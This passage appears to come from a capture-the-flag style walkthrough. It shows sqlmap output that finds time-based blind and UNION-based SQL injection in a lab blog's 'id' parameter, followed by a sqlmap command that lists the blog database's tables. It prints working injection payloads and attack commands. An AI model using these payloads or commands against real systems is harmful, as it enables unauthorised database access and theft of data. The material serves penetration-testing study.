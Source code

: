 ```
[10:33:12] [INFO] testing 'MySQL inline queries'
[10:33:12] [INFO] testing 'PostgreSQL inline queries'
[10:33:12] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[10:33:12] [INFO] testing 'MySQL > 5.0.11 stacked queries (SELECT - comment)'
[10:33:12] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[10:33:12] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[10:33:12] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[10:33:12] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SELECT)'
[10:33:22] [INFO] GET parameter 'id' seems to be 'MySQL >= 5.0.12 AND time-based blind (SELECT)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[10:33:30] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:33:30] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[10:33:30] [INFO] target URL appears to be UNION injectable with 5 columns
[10:33:30] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 315 HTTP(s) requests:
---
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: act=page&id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))QKoM) AND 'HUMC'='HUMC

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: act=page&id=1' UNION ALL SELECT NULL,CONCAT(0x7170706b71,0x766e4548586248517a7671644852634e4b797a56685349495347517370524769526c6a6b7964436c,0x7162707171),NULL,NULL,NULL-- -
---
[10:33:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.10
back-end DBMS: MySQL 5.0.12
[10:33:33] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.110.151'

[*] shutting down at 10:33:33
```

Good show! So now we will list the tables in the blog database:

```
root@kali:~# sqlmap -u 'http://192.168.110.151/blog/index.php?act=page&id=1' -D blog --tables
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-201606250a89}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 10:35:36

[10:35:36] [INFO] resuming back-end DBMS 'mysql' 
[10:35:36] [INFO] testing connection to the target URL
[10:35:36] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: AND/OR time-based blind
```